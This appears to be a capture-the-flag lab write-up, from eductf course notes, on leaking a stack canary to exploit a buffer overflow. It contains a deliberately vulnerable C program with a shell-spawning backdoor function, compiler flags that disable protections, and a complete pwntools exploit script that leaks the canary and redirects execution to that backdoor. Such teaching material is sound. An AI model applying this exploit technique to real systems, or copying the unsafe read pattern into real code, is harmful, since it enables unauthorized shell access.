 ```yaml
---
title: Simple Buffer Overflow - 0x05(Leak Canary)
tags: [CTF, PWN, eductf]

---
```


# Simple Buffer Overflow - 0x05(Leak Canary)
###### tags: `CTF` `PWN` `eductf`

## Canary Background
![](https://imgur.com/onxC8Aq.png)

## Original Code
```clike!
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

void backdoor()
{
    system("/bin/sh");
}

int main()
{
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);

    char name[0x10];
    char phone[0x10];

    printf("What's your name: ");
    read(0, name, 0x100);
    printf("Hello, %s !", name);

    printf("What's your phone number: ");
    read(0, phone, 0x100);

    return 0;
}
```

* Note that, if you establish the code yourself, you must turn off the protection by the command below and use `checksec` to observe the protection
    ```bash!
    gcc -o bof2_leak_canary bof2_leak_canary.c -zexecstack -no-pie -z norelro
    ```
    ![](https://imgur.com/u5iueTC.png)
    
## Exploit
* First, we can use `objdump -d -M Intel {filename}` to check the address of backdoor → `0x4011b6`
![](https://imgur.com/d30qIvL.png)
* However, we observe the backdoor function, it just call `system` instead of `execsv`. So, that you may encounter some error because of non-alignment. The solution is skip the `push %rbp` instruction and just jump to <font color="FF0000">`0x4011bb`</font>
    * The detailed description can refer to [lecture video](https://youtu.be/ktoVQB99Gj4?t=3058)
* Then we can construct a part of the payload below:
    ```python!
    from pwn import *

    context.arch = 'amd64'

    r = process('./bof2_leak_canary')
    raw_input()
    no_push_rbp_backdoor_addr = 0x4011bb
    ```
* Then we have to overlap `name` variable and `phone` variable with length `0x20`. In addition, the compiler will align 8 bytes, we should overlap it as well. Moreover, the last byte of `canary` is always `0x00`, then if we'd like to print out `canary` value, we should overlap it as well.(In pwntools, `recvuntil` function default consider `0x00` is a new line)
    ```python!
    r.sendafter("What's your name: ", b'a' * 0x29) #0x20 → name + phone / 0x08 for compiler alinment / 0x01 for canary last byte
    r.recvuntil('a'*0x29)
    canary = u64(b'\x00' + r.recv(7))
    print("canary: ", hex(canary))
    ```

* Final step, we do what we done before to overlap padding + `phone` variable`(0x18)` + original canary`(0x08)` + original `$rbp``(0x08)` + overlap `$rip` to backdoor.
    ```python!
    r.sendafter("What's your phone number: ", b'a' * 0x18 + p64(canary) + p64(0xdeadbeef) + p64(no_push_rbp_backdoor_addr))
    ```

* The whole payload is shown as below:
    ```python!
    from pwn import *

    context.arch = 'amd64'

    r = process('./bof2_leak_canary')
    raw_input()
    no_push_rbp_backdoor_addr = 0x4011bb
    r.sendafter("What's your name: ", b'a' * 0x29) #0x20 → name + phone / 0x08 for compiler alinment / 0x01 for canary last byte
    r.recvuntil('a'*0x29)
    canary = u64(b'\x00' + r.recv(7))
    print("canary: ", hex(canary))
    r.sendafter("What's your phone number: ", b'a' * 0x18 + p64(canary) + p64(0xdeadbeef) + p64(no_push_rbp_backdoor_addr))
    ```
* Then we got shell
![](https://imgur.com/9EGkDS0.png)

## Analysis
* About how to print canary:
Use `gdb` and execute to the first `print`, you can see that the stack structure.
![](https://imgur.com/usVpBMk.png)
![](https://imgur.com/6UDd5Po.png)
And we can print canary value from payload program → <font color="FF0000">`0xdf38469d4e106500`</font>
![](https://imgur.com/4tpr5M7.png)
    * Note that we can get `tls` address and `+0x28` to compare with canary value
    ![](https://imgur.com/gOMyuAq.png)


## Reference
[Lecture Vid. - Pwn week1](https://youtu.be/ktoVQB99Gj4)